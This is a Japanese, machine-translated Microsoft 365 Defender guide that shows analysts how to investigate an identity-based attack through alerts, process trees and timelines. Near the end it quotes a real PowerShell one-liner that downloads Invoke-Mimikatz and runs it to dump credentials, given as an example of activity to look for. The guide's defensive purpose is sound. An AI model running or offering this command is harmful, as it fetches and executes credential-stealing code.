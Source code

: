 ```yaml
---
title: ID ベースの攻撃の例
description: ID ベースの攻撃の分析例を説明します。
keywords: インシデント、アラート、調査、相関関係、攻撃、コンピューター、デバイス、ユーザー、ID、メールボックス、電子メール、365、microsoft、m365、インシデント対応、サイバー攻撃
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 883c0480b5f8cb35abfe59458d35c8d1274b8493
ms.sourcegitcommit: bdd6ffc6ebe4e6cb212ab22793d9513dae6d798c
ms.translationtype: MT
ms.contentlocale: ja-JP
ms.lasthandoff: 03/08/2022
ms.locfileid: "63327537"
---
```

# <a name="example-of-an-identity-based-attack"></a>ID ベースの攻撃の例

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**適用対象:**
- Microsoft 365 Defender

Microsoft Defender for Identity は、組織内の ID を侵害する悪意のある試みを検出するのに役立ちます。 Defender for Identity は Microsoft 365 Defender と統合され、セキュリティ アナリストは、Netlogon 特権昇格の疑いなど、Defender for Identity から入ってくる脅威を可視化できます。

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Microsoft Defender for Identity での攻撃の分析

Microsoft 365 Defender分析者は、[インシデント] ページの [アラート] タブで検出ソースによってアラートをフィルター処理できます。 次の例では、検出ソースは Defender for **Identity にフィルター処理されます**。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Defender for Identity の検出ソースをフィルター処理する例。":::

[疑わしいオーバー **パス-the ハッシュ** 攻撃] アラートを選択すると、Microsoft Defender for Cloud Apps のページに移動し、詳細情報が表示されます。 [このアラートの種類の詳細] を選択して、攻撃の説明と修復の提案を読み取[](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002)り、アラートや攻撃の詳細をいつでも確認できます。
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="疑わしいオーバーパスのハッシュ攻撃アラートの例。"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>エンドポイント向け Microsoft Defender で同じ攻撃を調査する

または、分析者は Defender for Endpoint を使用して、エンドポイントでのアクティビティの詳細を確認できます。 インシデント キューからインシデントを選択し、[アラート] タブ **を選択** します。ここから、検出ソースも識別できます。 検出ソースは、エンドポイントEDR検出と応答の略です。これは Defender for Endpoint です。 ここからアナリストは、ユーザーが検出したアラートをEDR。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Defender for Endpoint のエンドポイント検出と応答の例。"::: 

アラート ページには、影響を受けたデバイス名、ユーザー名、自動調査の状態、アラートの詳細など、さまざまな関連情報が表示されます。 アラート ストーリーは、プロセス ツリーの視覚的な表現を示しています。 プロセス ツリーは、アラートに関連する親プロセスと子プロセスの階層的な表現です。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Defender for Endpoint のアラート プロセス ツリーの例。"::: 

各プロセスを展開して、追加の詳細を表示できます。 アナリストに表示される詳細は、悪意のあるスクリプト、送信接続 IP アドレス、その他の有用な情報の一部として入力された実際のコマンドです。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Defender for Endpoint のプロセスの詳細の例。":::
 
[タイムラインで **表示] を選択** すると、アナリストはさらにドリルダウンして、侵害の正確な時刻を判断できます。 

Microsoft Defender for Endpoint では、多くの悪意のあるファイルとスクリプトを検出できます。 ただし、送信接続、PowerShell、およびコマンド ライン アクティビティの正当な使用が多いため、悪意のあるファイルまたはアクティビティが作成されるまで、一部のアクティビティは良性と見なされます。 そのため、タイムラインを使用すると、アナリストはアラートを周囲のアクティビティと関連付け、一般的なファイル システムとユーザー アクティビティによって見えなされない攻撃の元のソースまたは時間を特定できます。 

これを行うには、アナリストはアラート検出時 (赤色) から開始し、悪意のあるアクティビティに導かれた元のアクティビティが実際に開始された時期を判断するために、時間内に後方にスクロールします。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="アラート検出時の開始例。"::: 

Windows Update 接続、Windows 信頼できるソフトウェアライセンス認証トラフィック、Microsoft サイトへのその他の一般的な接続、サードパーティのインターネットアクティビティ、Microsoft Endpoint Configuration Manager アクティビティ、その他の良性アクティビティなどの一般的なアクティビティを疑わしいアクティビティと理解し、区別することが重要です。 これを実現する 1 つの方法は、タイムライン フィルターを使用する方法です。 アナリストが表示したくない項目をフィルター処理しながら、特定のアクティビティを強調表示できるフィルターが多数存在します。 

次の図では、アナリストがフィルター処理して、ネットワーク イベントとプロセス イベントのみを表示しました。 これにより、アナリストは、メモ帳が IP アドレスとの接続を確立したイベントを取り巻くネットワーク接続とプロセスを確認できます。これは、プロセス ツリーでも見ていました。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="悪意のある送信メモ帳接続を作成する方法の例を示します。"::: 

この特定のイベントでは、悪意メモ帳送信接続を確立するために使用されたイベントです。 ただし、通常、攻撃者は通常、iexplorer.exe Web ブラウザーの通常の動作と見なiexplorer.exeを使用して悪意のあるペイロードをダウンロードする接続を確立します。

タイムラインで探すもう 1 つの項目は、PowerShell が送信接続に使用する場合です。 アナリストは、悪意のあるファイルをホストする Web サイトへの送信接続などのコマンドを使用して、PowerShell `IEX (New-Object Net.Webclient)` 接続の成功を探します。 

次の例では、PowerShell を使用して Web サイトから Mimikatz をダウンロードして実行しました。

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
アナリストは、検索バーにキーワードを入力して、PowerShell で作成されたイベントのみを表示することで、キーワードをすばやく検索できます。 

## <a name="next-step"></a>次の手順

フィッシング調査 [パスを](first-incident-path-phishing.md) 参照してください。

## <a name="see-also"></a>関連項目

- [インシデントの概要](incidents-overview.md)
- [インシデントの管理](manage-incidents.md)
- [インシデントの調査](investigate-incidents.md)
